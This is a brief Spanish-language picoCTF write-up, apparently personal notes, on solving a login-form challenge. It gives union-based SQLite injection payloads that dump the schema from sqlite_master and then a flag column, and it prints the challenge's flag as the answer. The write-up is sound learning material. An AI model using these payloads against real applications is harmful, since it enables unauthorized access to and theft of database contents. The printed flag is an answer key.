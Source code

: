 #notas_hacking
# Reto
## Descripción
Can you find the flag on this website. Try to find the flag [here](http://saturn.picoctf.net:56397/).
## Solución
al ingresar como username: admin y password: admin nos regresa como se construye la consulta
```sql
username: admin
password: admin
SQL query: SELECT id FROM users WHERE password = 'admin' AND username = 'admin'
```
pasamos el `login` con `sql injection` y nos aparece un buscador de ciertos datos
con `'union select sql,2,3 from sqlite_master;` dentro del campo de búsqueda nos arroja la estructura de las tablas, ahora solo buscamos en todas, especialmente un a que contiene un campo llamado `flag` 
```sql
CREATE TABLE more_table (id INTEGER NOT NULL PRIMARY KEY, flag TEXT)
```
en el campo de búsqueda -> `' union select id,flag,3 from more_table;`
y nos devuelve:
`picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_e3e46aae}`
## Notas
## Referencias
[PayloadsAllTheThings/SQL Injection/SQLite Injection.md at master · swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)
